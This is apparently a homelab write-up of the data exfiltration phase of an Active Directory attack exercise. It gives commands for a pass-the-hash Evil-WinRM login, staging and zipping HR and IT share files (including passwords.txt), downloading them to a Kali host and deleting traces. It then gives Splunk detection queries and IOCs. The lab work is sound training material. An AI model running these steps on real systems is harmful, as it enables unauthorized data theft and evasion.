




# Phase 6 — Data Exfiltration

> **Tactic:** Collection, Exfiltration  
> **ATT&CK:** T1039, T1074.001, T1041  
> **Target:** HR_Share and IT_Share on HL-DC01  
> **Result:** Sensitive files staged and exfiltrated to Kali

---

## Overview

With full Domain Admin access established in Phase 4 and persistence 
confirmed in Phase 5, the final objective is to access sensitive file 
shares and exfiltrate data back to the attacker machine. Files are 
staged locally on DC01 before being transferred via the existing 
Evil-WinRM C2 channel.



---

## Step 1 — Connect to DC01 as da_admin
```bash
evil-winrm -i 192.168.0.104 -u da_admin -H <DA_NTLM_HASH>
```

---

## Step 2 — Enumerate Available Shares
```powershell
# List all shares on DC01
net share

# View HR share contents
dir C:\Shares\HR_Share

# View IT share contents
dir C:\Shares\IT_Share
```

Expected output:
```
Directory of C:\Shares\HR_Share
fake_payroll.xlsx
passwords.txt

Directory of C:\Shares\IT_Share
server_config.docx
backup_config.ps1
```

---

## Step 3 — Read Sensitive Files
```powershell
# HR sensitive files
type C:\Shares\HR_Share\fake_payroll.xlsx
type C:\Shares\HR_Share\passwords.txt

# IT sensitive files
type C:\Shares\IT_Share\backup_config.ps1
type C:\Shares\IT_Share\server_config.docx
```



---

## Step 4 — Stage Files for Exfiltration
```powershell
# Create staging directory hidden in plain sight
mkdir C:\Windows\Temp\exfil

# Copy all sensitive files to staging directory
Copy-Item C:\Shares\HR_Share\* C:\Windows\Temp\exfil\
Copy-Item C:\Shares\IT_Share\* C:\Windows\Temp\exfil\

# Compress into single archive
Compress-Archive -Path C:\Windows\Temp\exfil\* `
  -DestinationPath C:\Windows\Temp\exfil\data.zip

# Verify staging
dir C:\Windows\Temp\exfil
```

> **Why stage locally first?** Compressing files before transfer reduces 
> the number of network connections and makes the exfiltration faster 
> and less detectable than transferring files individually.

---

## Step 5 — Exfiltrate to Kali
```powershell
# Download via existing Evil-WinRM session
download C:\Windows\Temp\exfil\data.zip /tmp/exfil_data.zip
```

Verify on Kali:
```bash
ls -lh /tmp/exfil_data.zip
unzip -l /tmp/exfil_data.zip
```

 

---

## Step 6 — Clean Up Staging Directory
```powershell
# Remove staging directory to cover tracks
Remove-Item -Path C:\Windows\Temp\exfil -Recurse -Force

# Verify cleaned up
dir C:\Windows\Temp\
```

> **Note:** In a real investigation the cleanup itself generates forensic 
> artifacts — file deletion events are logged by Sysmon EID 23 and Windows 
> Security EID 4663. Cleaning up is not truly "invisible".

---

## Splunk Detection

### Files Staged in Temp — Sysmon EID 11
```
index=wineventlog_sysmon host="HL-DC01" EventCode=11
| search TargetFilename="*exfil*" OR TargetFilename="*data.zip*"
| table _time, Image, TargetFilename, User
```

### Compress-Archive Command — Sysmon EID 1
```
index=wineventlog_sysmon host="HL-DC01" EventCode=1
| search CommandLine="*Compress-Archive*" OR CommandLine="*data.zip*"
| table _time, Image, CommandLine, User
```

### da_admin Share Access — EID 4624
```
index=wineventlog host="HL-DC01" EventCode=4624
| search Account_Name="da_admin" Logon_Type="3"
| table _time, Account_Name, Logon_Type, Source_Network_Address
```




> **Note:** WinRM operational logging and Sysmon network connection 
> logging were not enabled in this lab. In a production environment 
> adding WinRM/Operational to inputs.conf and enabling Sysmon network 
> monitoring would provide full visibility into C2 data transfers.
---

## IOCs Generated

| Type | Value |
|------|-------|
| Staging Directory | C:\Windows\Temp\exfil |
| Archive File | C:\Windows\Temp\exfil\data.zip |
| Files Accessed | fake_payroll.xlsx, passwords.txt, server_config.docx, backup_config.ps1 |
| Destination IP | 192.168.0.103 |
| Transfer Method | Evil-WinRM download over port 5985 |

---

## Data Exfiltrated

| File | Share | Classification |
|------|-------|---------------|
| fake_payroll.xlsx | HR_Share | Confidential |
| passwords.txt | HR_Share | Internal |
| server_config.docx | IT_Share | Restricted |
| backup_config.ps1 | IT_Share | Restricted |

---

## Key Takeaway

> The attacker now has copies of all sensitive HR and IT data. The 
> exfiltration was performed entirely over the existing WinRM session 
> on port 5985 — the same port used for legitimate remote management — 
> making it blend in with normal traffic. Detection relies on behavioural 
> anomalies — a DA account accessing file shares and compressing data 
> outside business hours is a strong indicator of exfiltration activity.
